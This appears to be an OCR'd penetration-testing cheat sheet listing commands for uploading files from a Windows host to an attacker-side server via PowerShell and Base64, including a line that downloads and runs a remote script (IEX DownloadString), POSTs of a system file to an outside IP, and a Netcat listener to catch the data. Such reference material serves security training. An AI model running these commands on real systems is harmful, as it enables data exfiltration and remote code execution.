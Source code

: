 | **PowerShell Web Uploads**                                                                                                                                                                                                                                                                                                                        |                                                                                                                                                                                                |
| `pip3 install uploadserver`                                                                                                                                                                                                                                                                                                                       | Installing a Configured WebServer with Upload                                                                                                                                                  |
| `python3 -m uploadserver`                                                                                                                                                                                                                                                                                                                         | Installing a Configured WebServer with Upload                                                                                                                                                  |
| `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`                                                                                                                                                                                                           | PowerShell Script to Upload a File to Python Upload Server                                                                                                                                     |
| `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`                                                                                                                                                                                                                                            | Uploading the file using the script                                                                                                                                                            |
| **PowerShell Base64 Web Upload**                                                                                                                                                                                                                                                                                                                  |                                                                                                                                                                                                |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`                                                                                                                                                                                                                             | PowerShell Script to Upload a File to Python Upload Server                                                                                                                                     |
| `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`                                                                                                                                                                                                                                                                      | Uploading the file using Powershell script                                                                                                                                                     |
| `nc -lvnp 8000`                                                                                                                                                                                                                                                                                                                                   | We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.                                                                  |
| `echo <base64> \| base64 -d -w 0 \> hosts`                                                                                                                                                                                                                                                                                                        | Decoding                                                                                                                                                                                       |
| **SMB Uploads**                                                                                                                                                                                                                                                                                                                                   |                                                                                                                                                                                                |
